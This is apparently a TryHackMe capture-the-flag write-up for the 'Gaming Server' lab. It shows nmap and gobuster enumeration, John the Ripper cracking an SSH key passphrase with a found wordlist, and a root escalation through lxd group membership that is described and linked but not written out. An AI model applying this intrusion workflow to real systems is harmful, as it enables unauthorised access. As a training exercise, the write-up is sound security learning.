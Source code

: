 
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Gaming_server/images/85-1.png)

This challenge was straighforward as i found a ssh key and logged into the ssh service and exploit the lxd group to escalate privileges to root.

As always, i started with a port scanning.

```text
nmap -sS -T4 -p- 10.10.93.162
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-08 05:05 EDT
Nmap scan report for 10.10.93.162
Host is up (0.052s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```
I did an in depth scan, it didn't revealed that much.

```text
 nmap -sV -sC -p22,80 10.10.93.162
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-08 05:10 EDT
Nmap scan report for 10.10.93.162
Host is up (0.050s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I started enumeration on http service on the basic website with mostly lorem ipsum text.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Gaming_server/images/85-2.png)

The first page had this comment, from which i knew there is a user called john.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Gaming_server/images/85-3.png)

Draagan lore page has a different link which points to a uploads page.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Gaming_server/images/85-4.png)

The dict.lst contains a list of possible passwords. There is also  the ssh port open, this list may contain the real password of john.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Gaming_server/images/85-5.png)

Before jumping into this lead, i did a quick directory busting.
```text
 gobuster dir -u http://10.10.93.162 -w /usr/share/wordlists/dirb/common.txt T 250
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.93.162
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/08 05:14:54 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/robots.txt (Status: 200)
/secret (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```

The secret page has a secret key which can be used to login to the ssh service.

![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Gaming_server/images/85-6.png)

The secretKey is encrypted, but i managed to extract the hash and crack it.

```text
john --format=SSH hash.secretKey --wordlist=dict.lst
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (secretKey)
```

I modified the permissions of the secretKey file and log into the service.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Gaming_server/images/85-7.png)

John is in the lxd group and this can be used to escalate privileges.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Gaming_server/images/85-8.png)

A very good explanation of what lxd is and how to escalate privileges is on this website: https://www.hackingarticles.in/lxd-privilege-escalation/. I followed the tutorial and read the flag from mnt/root.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Gaming_server/images/85-9.png)

